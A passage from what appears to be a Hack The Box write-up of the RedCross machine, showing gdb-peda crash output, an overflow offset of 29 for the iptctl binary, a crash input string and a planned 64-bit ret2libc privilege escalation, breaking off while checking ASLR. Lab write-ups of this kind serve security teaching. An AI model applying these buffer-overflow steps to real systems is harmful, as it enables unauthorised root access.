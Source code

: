     0032| 0x7fffffffde68 --> 0x7ffff7ffe730 --> 0x7ffff7fd3000 (jg     0x7ffff7fd3047)
    0040| 0x7fffffffde70 --> 0x0
    0048| 0x7fffffffde78 --> 0x7ffff7fdf3af (<_dl_lookup_symbol_x+335>:     add    rsp,0x30)
    0056| 0x7fffffffde80 --> 0x0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000000000400b5e in interactive ()
    

In 64-bit, the bad address won’t actually load into RIP, but I can find the
offset at the top of the stack, at RSP. I’ve marked it in the output above
with `<--`

Now I’ll get the offset:

    
    
    gdb-peda$ pattern_offset A;AA
    A;AA found at offset: 29
    

Note, that is 29 beyond the “allow” I started my input with.

I can run again and give “allowAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB” as
input, and see that it crashes trying to pop BBBBBBBB into RIP.

#### Payload Strategy

Now I just need a payload to run with my control over RIP. Were this a 32-bit
host, a simple ret2libc would be the obvious choice, as I’ve recently shown in
[Frolic](/2019/03/23/htb-frolic.html#privesc-www-data--root) and
[October](/2019/03/26/htb-october.html#privesc-to-root). I’ll take a similar
strategy here, but there’s two things I’ll need to do differently for a 64-bit
host.

First, in x64 parameters are passed to a function differently. In x86,
arguments are passed on that stack, so I could over write the return pointer
with the function I wanted to call, then the next word was the exit address
(or junk), and then the next word(s) were the arguments to pass. In x64, the
arguments are passed in registers. So to call `system("sh")`, I need to get
the address of the string “sh” into the RDI register.

Second, ASLR uses a much larger address space in x64:

    
    
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f832410e000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f96ddd9f000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f81ef037000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fea7918b000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd7999c1000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7a548e8000)
    penelope@redcross:/home/penelope$ ldd /opt/iptctl/iptctl | grep libc
    ldd /opt/iptctl/iptctl | grep libc
            libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3048358000)
    